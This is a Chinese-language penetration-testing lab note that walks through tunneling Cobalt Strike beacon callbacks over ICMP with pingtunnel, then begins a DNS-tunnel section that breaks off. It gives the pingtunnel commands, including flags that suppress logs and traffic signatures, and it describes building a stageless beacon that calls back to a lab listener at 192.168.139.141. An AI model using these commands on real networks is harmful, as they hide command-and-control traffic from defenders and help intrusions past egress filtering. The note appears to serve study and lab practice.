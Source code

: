   上线  使用工具 pingtunnel

./pingtunnel -type server

工具将本地tcp流量用自己的6666端口流量转发到192.168.139.141:7777 上面（将tcp流量封装成icmp转发）

pingtunnel -type client -l :6666 -s 192.168.139.141 -t 192.168.139.141:7777 -tcp 1 -noprint 1 -nolog 1   后门生成绑定6666，上线监听7777，上线找7777。			这个工具就是封装作用  （ 1 -noprint 1 -nolog 1  就是减少流量特征的，不打印信息）

下面本应该是在webshell页面执行，但为了省事，就直接在目标机web上进行操作：

上传工具pingtunnel，然后在能和目标机通讯的机器上 ，（这里是kali）创建一个监听：

![1732524394790](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942049.png)

执行转发命令-----前面几次没有成功是因为web机的出站icmp没有开：、

![1732525019259](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942050.png)

成功接收到：

![1732524956671](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942051.png)

生成2个监听器：1 、2

![1732525288157](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942052.png)

下面生成exe、要选择stageless的，如果选择（E）上面的那个模式，无法上线（踩坑）：这里exe的监听器为1

![1732526027873](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942053.png)

执行66666.exe则就反射到本地6666来上线，而6666又经过一系列的转发成icmp到7777才出去，2监听器监听7777成功收到web机请求上线。

![1732526222224](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942054.png)

然后用wireshark监听流量发现，web机过来的全部是icmp协议的数据包（http----->icmp封装成功）：

![1732526418330](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942055.png)

隧道一关闭、cs就掉线：

![1732526561513](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942056.png)

### dns

  使用DNS技术实现上线----使用C2自带工具。 关闭icmp通讯出站。打开dns出站规则。这里上线需要一个dns的域名网站来上线dns的exe，这就是dns协议实现上线

关闭icmp出站协议，打开dns协议

![1732526830482](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942058.png)

下面还是本应该在webshell操作。我懒的上线get，就直接在主机上演示：

这里还得需要一个dns的域名。省略这个

### msb:
